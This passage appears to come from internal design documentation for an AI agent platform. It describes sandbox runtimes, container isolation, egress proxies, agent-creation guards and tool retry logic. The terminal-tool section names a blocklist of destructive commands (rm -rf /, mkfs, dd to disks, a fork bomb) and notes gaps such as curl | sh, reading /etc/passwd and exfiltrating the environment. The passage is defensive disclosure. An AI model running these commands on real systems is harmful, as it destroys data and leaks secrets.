

`SubprocessRuntime` is the default everywhere including CI. It runs
`asyncio.create_subprocess_exec` **on the host, as the backend's own OS user**,
with only a curated `env` dict for isolation.

`ContainerRuntime` runs `docker exec -u 10001:10001` inside a long-lived
per-tenant container, wrapping the command in coreutils `timeout
--kill-after=2` so the in-container process actually dies. It is selected only
when `sandbox.container_runtime_enabled` is on for the company.

**One switch** (since 2026-10-01, TX-01): `container_runtime_enabled(company_id)`
resolves that flag through its whole chain — the company's row, the global row,
`AI_FLAG_SANDBOX_CONTAINER_RUNTIME_ENABLED`, then the flag's default, which *is* the
deployment's `SANDBOX_CONTAINER_RUNTIME_ENABLED` (off unless set). Before, the flag
was declared `True` — the admin Feature Flags page showed container sandboxing on —
while the runtime consulted it only when a DB row existed and otherwise used the
setting, which was off. A call's context can no longer choose the runtime (the
`container_runtime` key is gone).

**No silent downgrade** (TL-01, in part): a `ContainerRuntime` that cannot be built
raises instead of falling back to the host, and a Docker failure inside it is an
`ExecResult` error, not a host retry. Flipping the default to containers needs the
sandbox images and a durable workspace volume (P11).

The tool-synthesis test harness (`ToolSandboxTester`) writes its files under the
company's workspace — the directory a tenant container mounts — rather than bare
`/tmp`, which only the host runtime could see (TL-02, in part).

### 12.2 The trust boundary



**Read that diagram carefully.** In the default configuration the "sandbox" is a
subprocess on the host with the backend's own privileges. The real isolation —
dropped capabilities, read-only root, no network, resource limits — only exists
in `ContainerRuntime`, which ships OFF. The sandbox image README states this as
a release gate: *"the container escape surface, egress policy, and secret
handling need a dedicated security review before the canary flip."*

Resource limits, by runtime:

| Control | SubprocessRuntime | ContainerRuntime |
|---|---|---|
| User | backend process user | uid/gid `10001` |
| Root filesystem | host, writable | `--read-only` |
| `/tmp` | host `/tmp` | tmpfs, `rw,exec,size=512m` |
| Capabilities | inherited | `--cap-drop ALL`, `no-new-privileges` |
| Network | unrestricted | `--network none` (`SANDBOX_NETWORK`) |
| Memory | none | `SANDBOX_MEMORY`, default `1g` |
| CPU | none | `SANDBOX_CPUS`, default `1.0` |
| Processes | none | `SANDBOX_PIDS_LIMIT`, default `256` |
| Timeout kill | `proc.kill()` from the parent | in-container `timeout --kill-after=2` |

### 12.3 Container lifecycle

[`TenantSandboxManager`](../../backend/src/ai/tools/sandbox/tenant_manager.py)
owns one container per company and network policy: `hb-sandbox-{company_id}` for a
call with no network, `hb-sandbox-{company_id}-allowlist` for one behind the egress proxy
(§12.4). A running container's network is fixed, so code that must have no network never
shares a container with an allow-listed call. It shells out to the `docker` CLI rather than
taking an SDK dependency, and serialises concurrent `ensure()` calls with a
per-company asyncio lock.



The workspace model matters: the host directory `<root>/{company_id}` is
bind-mounted into the container **at the identical absolute path**. `<root>` is
`settings.SANDBOX_WORKSPACE_ROOT`, or `backend/var/sandbox` when unset (TL-16, P11.1:
it used to be `<system temp>/sandbox`, emptied by a reboot; a root under the temp directory
is warned about at first use). A deployment with several nodes points it at storage every
node sees; the compose file mounts `/var/lib/hirebuddha/sandbox` at the same path on the
host. Every sandbox path derives from
[`sandbox/workspace.py`](../../backend/src/ai/tools/sandbox/workspace.py)
(`workspace_root`, `tenant_workspace` — TL-29). That is why existing tools — which write a
script to a host path and then exec it — work unchanged under either runtime, and why
`_ffmpeg` concat lists are valid in both.

**What the container sees** (`tenant_manager.mounted_roots`, P11.1):

| Host directory | Inside | Why |
|---|---|---|
| `<root>/<company>` | read-write | the workspace |
| `<root>/<company>/.skills` | **read-only** | the published skill files: tenant code cannot rewrite what a version ships |
| the company's two artifact directories (`artifact/system-generated/<company>`, `artifact/user-uploads/<company>`) | **read-only** | a tool can read an artifact the model names, such as a video to edit (TL-17) |

On a Windows host (development) a `C:\...` path is not a container path, so each directory
is mounted under `/host/<drive>/...` and `ContainerRuntime.exec` translates host paths in
the argv, working directory and environment, and container paths back in the output
(`sandbox/container_paths.py`; identity on Linux).

**Skill files (R2, P5.4).** A run's scripts arrive the same way. Before a step runs,
`StepExecutorService._execute_step` (once per run) calls
[`skill_files.run_skill_files`](../../backend/src/ai/tools/sandbox/skill_files.py): for the
run's pinned version and each ancestor run's version (D14) that has assets, it writes the
files into `<tenant workspace>/.skills/<slug>/<version_number>/`. A `.content-hash` marker
equal to the version's hash makes a repeat a no-op without reading any body; a missing or
stale tree is written into a temporary directory and renamed into place, so a parallel step
never sees half of it. Paths are re-validated before writing. The step's sandwich prompt
gets a **Skill Files** section naming each root and its files (scripts first, 40 a
version). Writing happens in the worker; the API process only stores bodies
([03 §4.1a](03-data-model.md#41a-entity_versions-and-entity_assets)). A prompt names a
file as `$SKILL_FILES/<path>`; `fill_skill_files` replaces the token, in the step's system
and user prompts, with the nearest version's folder, so a seed or an author never needs the
version number. `terminal` runs in `tenant_workspace()` (it used a hard-coded
`/tmp/sandbox/<company>`, which differs wherever `SANDBOX_WORKSPACE_ROOT` is set — a TL-29
leftover, fixed in P5.7).

Until P5.7, `sandbox_provision` symlinked the repo's `SeedDocumentFactory/scripts` into
**every** tenant workspace and bind-mounted it into every container: one directory every
tenant read, and in host mode (TL-01) could write. It is deleted; the Document Factory's
scripts are files of each family AGENT's version (`docx`, `pptx`, `xlsx`, `pdf`), attached by
the seed's Phase 7 through the versions API, and the action prompts name them as
`$SKILL_FILES/...`.

### 12.4 The egress proxy

Every sandbox call carries a network policy — `run_sandbox_exec(..., network=…)`, default
`none` — and the container runtime runs it in the container for that policy (TL-15; the
argument used to be dropped, so every container ran `--network none` and this proxy had no
caller). A synthesized tool whose `NetworkPolicy` is `ALLOWLIST` runs with `allowlist`: it
needs a few approved hosts but not the open internet.
[`EgressProxyManager`](../../backend/src/ai/tools/sandbox/egress_proxy.py)
builds that. `FULL` is never granted: such a tool runs with no network. The third
policy, `web`, is the browser's (TL-18): any public host, never an internal address.
There is no switch to turn a proxy on; each is started the first time a call needs it.

| Policy | Sandbox container | Proxy container | What gets through |
|---|---|---|---|
| `none` | `hb-sandbox-{company}` (`--network none`) | — | nothing |
| `allowlist` | `hb-sandbox-{company}-allowlist` | `hb-egress-proxy` (tinyproxy) | hosts matching `SANDBOX_EGRESS_ALLOWLIST` |
| `web` | `hb-sandbox-{company}-web` | `hb-egress-web` ([web_proxy.py](../../backend/docker/egress-proxy/web_proxy.py)) | any host whose every resolved address is public; the proxy connects to the address it checked |

One image, `MODE` picks the proxy. The web proxy exists because tinyproxy filters
names, not the addresses it connects to.



Two layers of defence, deliberately:

1. The sandbox joins an `--internal` Docker network. Even if the tool code
   ignores `HTTP_PROXY`, there is nowhere to connect.
2. tinyproxy runs with `FilterDefaultDeny Yes` over a filter file built at
   container start from `$ALLOWLIST`
   ([entrypoint.sh](../../backend/docker/egress-proxy/entrypoint.sh)). Each entry
   becomes an anchored regex `(^|\.)host\.com$`, and `ConnectPort` is limited to
   443 and 80.

| Setting | Default | Meaning |
|---|---|---|
| `SANDBOX_EGRESS_IMAGE` | `hb-egress-proxy:local` | proxy image |
| `SANDBOX_EGRESS_NETWORK` | `hb-egress-internal` | the internal sandbox net |
| `SANDBOX_EGRESS_UPLINK_NETWORK` | `hb-egress-uplink` | proxy's internet-facing net |
| `SANDBOX_EGRESS_PROXY_PORT` | `8888` | proxy port |
| `SANDBOX_EGRESS_ALLOWLIST` | `googleapis.com,google.com` | comma-separated host suffixes |

The tinyproxy container keeps `SETUID`/`SETGID` (everything else dropped) so
tinyproxy can drop from root to its own user; the web proxy runs as `nobody` with no
capabilities and a read-only root. A `.gitattributes` keeps the image's files LF: built from
a Windows checkout with CRLF, `entrypoint.sh` could not start (`#!/bin/sh` followed by a
carriage return).

### 12.5 The sandbox image

[backend/docker/sandbox/Dockerfile](../../backend/docker/sandbox/Dockerfile)
builds `hb-sandbox` from `mcr.microsoft.com/playwright/python:v1.58.0-noble`. The base
ships the browsers (`/ms-playwright`) but not the Python package; `requirements.txt` pins
`playwright==1.58.0`, the version those browser builds belong to (TL-18 found it missing:
nothing had run a browser in the container before).
On top it installs ffmpeg, LibreOffice headless, Liberation fonts, Node and npm,
`pptxgenjs`, the Python document libraries from
[requirements.txt](../../backend/docker/sandbox/requirements.txt), and bakes the
Document Factory scripts at `/opt/docfactory/scripts`. It carries **no isolation
policy of its own** — that is applied by `docker run` flags.

### 12.6 The three sandbox tools

**`sandbox_code`** (typed since P6.8). `Params`: `language`, `code`, `timeout_s` — held to
1–120 s (TL-61: it took any timeout the model chose). A plan step's text fills `code`;
fenced code is unwrapped and its language taken. Writes the snippet to a `NamedTemporaryFile`
inside the tenant sandbox dir, execs the interpreter, deletes the temp file. A
deliverable is whatever the code put in **`$ARTIFACTS_DIR`** (the drop box, below); nothing
else in the workspace becomes an artifact. If the input is not JSON it
falls back to language auto-detection by scoring Python / Bash / JS keyword
signals, and JavaScript is wrapped into a heredoc that pipes to `node`. A run's skill
files are in the same working directory (§12.3).

**`terminal`** (454 lines). Passes the string to `/bin/bash -c`. Its only
command-level guard is a 13-pattern regex blocklist
([terminal_tool.py:45](../../backend/src/ai/tools/sandbox/terminal_tool.py:45)):
`rm -rf /`, `mkfs`, `dd of=/dev/`, fork bomb, `shutdown`, `reboot`, `halt`,
`poweroff`, `init 0`, `init 6`, `> /dev/sd[a-z]`, `chmod 777 /`. This is a
speed bump, not a security boundary — it does not stop `curl | sh`, reading
`/etc/passwd`, `rm -rf /home`, or exfiltrating the host's environment.

**The drop box (TL-36, P11.2).** Each `terminal` and `sandbox_code` call gets an empty
directory, `<workspace>/.artifacts/<run>/<call>/`, exported as `$ARTIFACTS_DIR`
([`sandbox/drop_box.py`](../../backend/src/ai/tools/sandbox/drop_box.py)). When the call
ends, every regular file in it — at most 20, each at most 25 MB, links never — is saved as
an artifact of the run through `save_tool_output`, the directory is removed, and the tool's
output lists what was kept. Both tools' descriptions tell the model so. Before, `terminal`
walked all of `/tmp` to depth 3 for recent documents (filing another run's or another
tenant's file under this run) and both diffed the working directory behind an exclusion
list; both scans are deleted. The Document Factory still keeps its final document through
`document_save`.

**`headless_browser`** (typed since P6.8). **A call is one browser session**: `steps` (1–10
actions — `navigate`, `click`, `type`, `screenshot`, `get_text`, `evaluate`) run in order on
one page, after an optional `url`; the first failing step stops the session and the error
names it. So a login and a read happen in one call; nothing is kept between calls. Before
P6.8 (TL-62) each call opened a fresh session for one action, so `click`/`type`/`get_text`
never composed. The single-action form (`{"action": ..., "url": ...}`) is accepted as one
step. Only `http(s)` URLs are opened.

**Where the browser runs (TL-18, 2026-10-06).** A session is a request — the steps, the
timeout, the profile directory, the drop box — that the runtime runs with
[sandbox/browser_runner.py](../../backend/src/ai/tools/sandbox/browser_runner.py), the one
place the step semantics live (it imports only the standard library and Playwright):

| Runtime | How | Network |
|---|---|---|
| `ContainerRuntime` | The platform writes the runner to `.skills/.platform/browser/` (read-only in the container, rewritten only when the runner changes) and the request to `.browser-calls/<id>/request.json`, then `docker exec`s `python3 browser_runner.py request.json` in the company's **`web` container** (`hb-sandbox-{company}-web`) with the image's Playwright. The result is one JSON line on stdout | The container is on the `--internal` egress network; its only way out is `hb-egress-web` (§12.4), which resolves each host and connects only to a public address it checked — so DNS rebinding cannot reach an internal host either |
| `SubprocessRuntime` (development) | In-process, `browser_runner.run_session` with the host's guards as hooks | Every request the page makes — navigation, redirects, frames, subresources, anything `evaluate` fetches — goes through Playwright's router and the SSRF guard ([common/net_guard.py](../../backend/src/common/net_guard.py), TL-08); refused requests are listed in `blocked_requests` |

Until TL-18, `ContainerRuntime.open_browser_session` handed back a page from an embedded
`SubprocessRuntime`: with the container runtime on, Chromium and `evaluate`'s JavaScript still
ran on the host as the backend's OS user. A screenshot is written to the call's drop box
(`$ARTIFACTS_DIR`, §12.2) and kept as an artifact of the run; the step names its
`artifact_id`. Sessions are ephemeral by default; `sandbox.persistent_browser_enabled` gives
the company a persistent Chromium profile under `<workspace>/.browser/{persona}` so cookies
and logins survive (the container sees the same directory).

---

## 13. `meta/` — tools that build the platform



Meta tools are **auto-injected** by tier. `step_executor` calls
`resolve_meta_cognition(entity)` and appends tool ids the entity never declared
([step_executor.py:732](../../backend/src/ai/step_executor.py:732)) — tier 2
adds `meta_registry_search`, tier 3 adds `meta_entity_creator` and
`meta_entity_executor`, and the introspection flags add `agent_introspect` /
`agent_reflect`.

### Recursion and self-modification guards

`meta_entity_creator` is the tool that lets an agent create another agent. Three
gates stand in front of it
([entity_creator.py:89](../../backend/src/ai/tools/meta/entity_creator.py:89)):

| Gate | Where | Behaviour |
|---|---|---|
| Runtime creation limit | `ToolAccess`, every entity except the Meta-Agent | max `meta_cognition.max_runtime_creations` (default 3) `meta_entity_creator` calls per run, counted from the run's call log (§17) |
| Daily creation limit | `AntiSprawlGuard.check_creation_allowed` | per-company per-day cap, returns `gate: "daily_limit"` |
| Semantic duplicate | `AntiSprawlGuard.check_semantic_duplicate` | embedding-similarity check against existing entities, returns `gate: "semantic_duplicate"` with the existing id and score |

Entities created at runtime by a non-Meta-Agent are tagged
`metadata_extensions.runtime_created = true` and
`created_by_entity = <caller name>` so the lineage is auditable.

> **Since 2026-10-01 (P3.3):** the cap is a per-run call limit on
> `meta_entity_creator`, enforced by `ToolAccess` from the run's call log (§17).
> Before, the tool counted in its `context` dict, which `ToolResilience` copies for
> every call, so the count restarted at 0 on each call and the limit never fired.

`tool_synthesis` is the sharpest edge and carries four independent gates:

```python
# backend/src/ai/tools/meta/tool_synthesis.py
if not context.get("__is_meta_agent__", False):
    return json.dumps({"error": "tool_synthesis is restricted to the Meta-Agent.",
                       "gate": "is_meta_agent"})
enabled = await flags.is_on("meta_agent.tool_synthesis_enabled", company_id=company_uuid)
if not enabled:
    return json.dumps({"error": "tool synthesis is disabled ...", "gate": "kill_switch"})
```

plus the registry-level `tools.experimental.tool_synthesis` opt-in, plus the rule
that synthesized source **never runs in-process** —
`SandboxedSynthesizedTool.run_with_context` replays every call through
`ToolSandboxTester` so the code only ever executes inside the container.

The `ToolSpec` a synthesizer must supply
([schemas/tools.py:42](../../backend/src/ai/schemas/tools.py:42)) constrains the
result up front: `name` must match `^[a-z][a-z0-9_]{2,48}$`, `allowed_imports`
is an explicit allow-list, and `network_policy` is one of `none` (default),
`allowlist` (the call runs behind the egress proxy, §12.4) or `full` (never granted: it
runs with no network).

---

## 14. `mcp/` — deleted

The `tools/mcp/` package — a transport-agnostic `MCPClient` Protocol, an
`MCPToolAdapter` and `bind_mcp_server` — was deleted on 2026-10-01 (TL-22). It
had no concrete client (no stdio, HTTP or SSE transport), no configuration
surface, and no production caller: only its unit test bound a server, with a
fake client. Git keeps it. If MCP servers become a customer requirement, they
fit the skill-first model as one authenticated primitive per server family.

---

## 15. `resilience.py` — retries and recovery

[tools/resilience.py](../../backend/src/ai/tools/resilience.py) (403 lines) is
the Phase 11 Track 8 consolidation of tool self-healing. **It has no circuit
breaker, no backoff and no timeout of its own** — those words appear in the
design intent doc but not in the shipped module. What it has is a three-step
recovery ladder driven by failure classification.

### 15.0 A write happens once per run

Since P6.5 (2026-10-02, TL-39) a call that writes — a tool in `WRITE_TOOLS`, or a
`social_api` operation whose verb writes — gets `idempotency_key = sha256(run, tool,
arguments)` ([governance/idempotency.py](../../backend/src/ai/governance/idempotency.py)),
stored on its `tool_interaction_logs` row. Before it runs, the executor's one runner looks
for a successful row with that key in the run: if there is one, its output is returned,
marked `replayed` — nothing is written again, billed (0 units) or counted against the
run's tool-call limit. A retried, re-planned or resumed step therefore no longer re-posts,
re-sends or re-creates. A failed earlier call is not replayed; different arguments are a
different write.

### 15.1 Failure classification

```python
# backend/src/ai/tools/resilience.py
class FailureKind(str, Enum):
    NONE = "NONE"; FORMAT = "FORMAT"; IO = "IO"; EMPTY = "EMPTY"
    TIMEOUT = "TIMEOUT"; ERROR_MSG = "ERROR_MSG"; OTHER = "OTHER"
```

**Whether a call failed comes from its result** (TL-52). Tools report failure in
what they return, not by raising, so `ToolExecutor` passes every result through
`settle_result`: an output that is `{"error": …}`, `{"success": false, …}`, a
JSON string of either, or a string starting `Error: …`, `Error <doing x>: …` or
`[ERROR] …` (`result_error`) makes the call `success=False` with that `error`.
A failed call is logged as failed in `tool_interaction_logs` (the efficacy
report's success rate), **is not billed** (both step paths call `_charge_tool`
only on success), and fails its TOOL_CALL step (the step result carries
`error`, so the run's status sees it — AK-01).

`classify_tool_failure(tr)` then buckets the failure. **A call that succeeded is
a failure only when its output is blank** (TL-51): the keyword buckets apply
only to failed calls, so a page, search summary or email that merely mentions
"no results" or "timed out" is a success. Before TL-51 the buckets ran on every
output, failed succeeding calls on their content, and re-ran them.

| Order | Kind | Trigger |
|---|---|---|
| 0 | `EMPTY` | output falsy or whitespace-only (any call) |
| — | `NONE` | the call succeeded (`success` and no error envelope) |
| 1 | `EMPTY` | failed, and contains `no results` / `empty response` / `0 results` |
| 2 | `TIMEOUT` | contains `timeout` / `timed out` / `deadline exceeded` |
| 3 | `IO` | contains `no such file or directory` / `errno 2` / `errno 22` / `invalid argument` / `file name too long` |
| 4 | `FORMAT` | contains `error` **and** a format keyword (`invalid json`, `parse`, `delimiter`, `control character`, `expecting`, `decode`) **and not** an infra keyword (`api key`, `not configured`, `timeout`, `connection`, `unauthorized`, `403`, `401`, `rate limit`) |
| 5 | `ERROR_MSG` | output starts with `ERROR:` |
| 6 | `OTHER` | any other failed call |

The order matters and is commented as deliberate: `"ERROR: invalid json ..."` is
both an error message and a format error, and FORMAT wins because it carries the
actionable signal.

### 15.2 The recovery state machine



Exact policy, stated plainly:

- **A write tool is never re-run** (TL-51). `WRITE_TOOLS` in `resilience.py`
  lists the tools whose call changes something outside the run — messages,
  posts and comments, ad objects, CRM and calendar records, saved files, and
  the platform's own creator/executor tools; `is_write_tool` also matches a
  fallback id `a→b`. A failed write gets no reformat retry and no fallback (a
  second attempt would send, post or save a second time); its result goes back
  unchanged with `success=False`, and `agent.tool.resilience.write_not_retried`
  is emitted. `tests/unit/test_tool_success.py` fails when a registered tool
  whose name reads like a write is in neither `WRITE_TOOLS` nor
  `READS_DESPITE_NAME`.
- **At most one reformat retry.** `REFORMAT_RECOVERABLE_KINDS = (FORMAT, IO,
  EMPTY, ERROR_MSG)`. `TIMEOUT` and `OTHER` skip straight to fallback — a
  timeout is not something rewriting the input fixes.
- **A fallback chain, not one hop** (since P8.7, EP-23): up to three fallbacks, each
  fallback's own next, no tool twice (`tool_fallback.fallback_chain`).
- **No delay between attempts.** No sleep, no jitter, no backoff.
- **No circuit breaker.** Nothing tracks consecutive failures per tool, and no
  tool is ever temporarily disabled. A tool whose API key is missing will be
  retried on every single step of every single run.
- **No timeout enforcement here.** Timeouts are each tool's own concern —
  `httpx` client timeouts (15 s in `web_search`, 30 s in `SocialMediaTool` and
  `scraper_tool`), or the sandbox runtime's `timeout` parameter.

Four telemetry events are emitted:
`agent.tool.resilience.reformat_attempt`,
`agent.tool.resilience.fallback_taken`,
`agent.tool.resilience.final_empty`,
`agent.tool.resilience.write_not_retried`.

On total failure the output is replaced so the LLM sees something structured,
keeping what the tool last said:

```
[TOOL_EMPTY] Tool 'web_search' returned no usable output after retries. Failure kind: ERROR_MSG. Last output: Error: quota exceeded
```

A successful fallback renames the result: `alt_tr.tool = f"{tool_id}→{alt_tool_id}"`.

### 15.3 Where retries and backoff actually live

| Mechanism | Location | Policy |
|---|---|---|
| Exponential backoff on HTTP 429 | [core/search.py:155](../../backend/src/ai/tools/core/search.py:155) | 3 retries, `2 * 2**attempt` seconds = 2 s, 4 s, 8 s — SerpAPI only |
| Platform retry | [social/base.py](../../backend/src/ai/tools/social/base.py) `_api_request` | 3 retries with backoff and jitter, honouring `Retry-After`, capped at 30 s. A read retries 429, 5xx, timeouts and refused connections; a write only 429 and refused connections (a 5xx or a timeout may already have posted). Until P6.4 (TL-37) 429 and 5xx were never retried and the two retries were immediate. A list response's next-page marker makes the operation's result say `truncated: true` and give `next_page` (TL-38) |
| Rate-limit pacing | [core/batch_search.py:55](../../backend/src/ai/tools/core/batch_search.py:55) | 1.5 s between queries, 3 s every 3 queries |
| Backend degradation | `web_search`, `batch_web_search` | SerpAPI → `ddgs` library → DuckDuckGo Instant Answers |

### 15.4 Which paths use `ToolResilience`

Both, unconditionally. The direct `TOOL_CALL` step (`_execute_tool_call`) calls
`ToolResilience.run` (TL-51 removed its inline copy of the classifier, which had drifted),
and since P8.6 (2026-10-03, EP-22) the REACT / automatic-function-calling path always calls
`ToolResilience.run_function_call`. Before, a flag (`tools.resilience_v2_enabled`) decided,
and with it off a model's tool calls got no reformat retry and no fallback; the flag is
deleted.

---

## 16. `tool_fallback.py` — the substitution table

[tool_fallback.py](../../backend/src/ai/tool_fallback.py) (166 lines) is a
static table of "if X fails, try Y with the input rewritten like this".

